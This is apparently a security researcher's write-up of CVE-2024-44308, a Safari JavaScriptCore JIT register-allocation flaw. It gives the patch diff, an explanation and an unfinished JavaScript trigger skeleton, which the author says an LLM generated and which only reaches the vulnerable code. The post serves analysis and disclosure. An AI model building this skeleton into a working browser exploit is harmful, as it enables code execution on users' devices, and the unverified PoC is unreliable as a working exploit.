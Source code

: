 ```yaml
---
layout: post
title: "[In-The-Wild] CVE-2024-44308 : Apple Safari JavaScriptCore Remote Code Execution Vulnerability"
author: "Dohyun Lee (@l33d0hyun)"
---
```


# Summary
- CVE ID : [CVE-2024-44308](https://support.apple.com/en-us/121754/)
- Target Software : Apple Safari (iOS, visionOS, macOS)
- Affected Version : iOS 17.7.1, 18.1, visionOS 2.1, macOS Sequoia 15.1
- Patched Version : iOS 17.7.2, 18.1.1, visionOS 2.1.1, macOS Sequoia 15.1.1
- Impact : Remote Code Execution
- Reporter(s) : [Clément Lecigne](https://x.com/_clem1) and [Benoît Sevens](https://x.com/benoitsevens) of [Google's Threat Analysis Group](https://blog.google/threat-analysis-group/)
- Analyzer(s) : [Dohyun Lee (@l33d0hyun)](https://x.com/l33d0hyun) of [USELab, Korea University](https://sites.google.com/view/uselab-kus/home)

# Technical Details
## Overview
- This vulnerability in WebKit's DFG JIT compiler involves a register corruption issue due to improper allocation timing of `scratch2GPR` register.

## Analysis
```diff
diff --git a/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp b/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp
index 356d52b21a120..d041b63e8ba98 100644
--- a/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp
+++ b/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp
@@ -3528,6 +3528,14 @@ void SpeculativeJIT::compilePutByValForIntTypedArray(Node* node, TypedArrayType
        }
    }

+    GPRReg scratch2GPR = InvalidGPRReg;
+#if USE(JSVALUE64)
+    if (node->arrayMode().mayBeResizableOrGrowableSharedTypedArray()) {
+        scratch2.emplace(this);
+        scratch2GPR = scratch2->gpr();
+    }
+#endif
+
    bool result = getIntTypedArrayStoreOperand(
        value, propertyReg,
#if USE(JSVALUE32_64)
@@ -3539,14 +3547,6 @@ void SpeculativeJIT::compilePutByValForIntTypedArray(Node* node, TypedArrayType
        return;
    }

-    GPRReg scratch2GPR = InvalidGPRReg;
-#if USE(JSVALUE64)
-    if (node->arrayMode().mayBeResizableOrGrowableSharedTypedArray()) {
-        scratch2.emplace(this);
-        scratch2GPR = scratch2->gpr();
-    }
-#endif
-
    GPRReg valueGPR = value.gpr();
    GPRReg scratchGPR = scratch.gpr();
#if USE(JSVALUE32_64)
```
- WebKit Commit : [53e7f27d262249310bd6b7ad452e7df334c92b7d](https://github.com/WebKit/WebKit/commit/53e7f27d262249310bd6b7ad452e7df334c92b7d).diff


- This vulnerability has been patched as shown above. In the pre-patch code, there was a potential register misuse issue where `scratch2GPR` was allocated after adding a slow path through `getIntTypedArrayStoreOperand()`. This could lead to problems for the following reasons:

  - Allocating a DFG register after a slow path means that if the slow path is taken, we will have allocated a register unnecessarily and end up with inconsistent global state.
  - In this specific case, if `getIntTypedArrayStoreOperand()` adds a slow path, `scratch2GPR` gets allocated after that even though it won't be used in the slow path.

- Code Flow:
  - Call `getIntTypedArrayStoreOperand()` -> Add slow path -> Incorrectly allocate `scratch2GPR` -> Inconsistent register state if slow path taken

## Proof-of-Concept (Unfinished)
- This is not a fully developed PoC, but it allows us to reach the functions we need to trigger: `SpeculativeJIT::compilePutByValForIntTypedArray` and `getIntTypedArrayStoreOperand()`.
- This skeleton code is the code generated by `LLM (Large Language Model)`.

```js
var ab = new ArrayBuffer(8);
var arr = new Int32Array(ab);

const confuser = {
    valueOf() {
        gc();
        if (this.flag) {
            return {x: 0x41414141};
        }
        return 0x1234;
    },
    flag: false
};

function jitMe(arr) {
    let x = 0;
    for(let i = 0; i < 10000; i++) {
        if(i % 100 === 0) {
            confuser.flag = !confuser.flag;
            x = confuser;
        } else {
            x = i & 0xff;
        }
        arr[(i & 0xffff)] = x;
    }
    return arr;
}

for(let i = 0; i < 100; i++) {
    jitMe(arr);
}
jitMe(arr);
```

- The complete PoC code will be updated once it is finalized.

## Additional Information
- I think I might find useful information on the blog below! It seems to have some similarities.
  - [https://blog.csdn.net/qq_61670993/article/details/137603280](https://blog.csdn.net/qq_61670993/article/details/137603280)